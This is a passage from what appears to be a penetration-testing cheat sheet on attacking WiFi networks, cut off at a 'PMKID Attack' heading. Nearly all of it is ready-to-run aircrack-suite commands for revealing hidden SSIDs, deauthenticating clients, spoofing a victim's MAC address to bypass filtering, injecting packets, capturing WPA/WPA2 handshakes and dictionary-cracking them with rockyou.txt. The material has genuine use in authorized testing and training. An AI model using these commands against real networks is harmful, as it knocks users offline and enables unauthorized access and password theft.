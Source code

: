 If you specified the output file, don't forget to stop `airodump-ng` after you are done monitoring because it will fill up all your free storage space with a large PCAP file.

Use [Kismet](https://github.com/ivan-sincek/evil-twin#additional-kismet) or WiFi Pineapple to find more information about wireless access points, e.g. their MAC address, vendor's name, etc.

## <mark style="color:red;">Find Hidden SSIDs</mark>

```
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> wlan0mon
aireplay-ng -0 20 -a <BSSID> -c <VictimMac> wlan0mon 
```

## <mark style="color:red;">Bypass MAC Filtering</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 10 --a <BSSID> -c <VictimMac> wlan0mon
ifconfig wlan0mon down
macchanger --mac <VictimMac> wlan0mon
ifconfig wlan0mon up
aireplay-ng -3 -b <BSSID> -h <FakedMac> wlan0mon
```

## <mark style="color:red;">Cracking</mark>

Check if a wireless interface supports packet injection:

```
aireplay-ng --test wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

### <mark style="color:orange;">WPA/WPA2 Handshake</mark>

Monitor a WiFi network to capture a WPA/WPA2 4-way handshake:

```
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

\[Optional] Deauthenticate clients from a WiFi network:

```
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Start the dictionary attack against a WPA/WPA2 handshake:

```
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF -w rockyou.txt airodump_essid_results*.cap
```

### <mark style="color:orange;">PMKID Attack</mark>
